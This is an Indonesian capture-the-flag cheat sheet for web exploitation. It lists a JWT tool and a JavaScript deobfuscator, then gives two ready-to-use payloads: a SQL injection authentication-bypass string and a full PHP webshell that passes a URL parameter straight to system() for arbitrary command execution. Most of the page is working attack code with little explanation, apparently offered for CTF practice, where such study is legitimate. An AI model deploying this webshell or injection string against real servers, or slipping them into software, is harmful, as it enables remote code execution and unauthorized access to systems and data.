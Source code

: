 ```yaml
---
title: Semua Tentang CTF - Kategori Web Exploitation
published: true
---
```

# Tools
Kategori Web Exploitation:
1. [JWT (JSON Web Token)](https://token.dev/)
2. [Deobfuscate Kode JS](https://deobfuscate.io/)

# Kode
SQL Injection
```sql
' OR 1=1 OR '1'='1
```

PHP Webshell (Execute Linux Command) dari [joswr1ght](gist.github.com/joswr1ght).

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
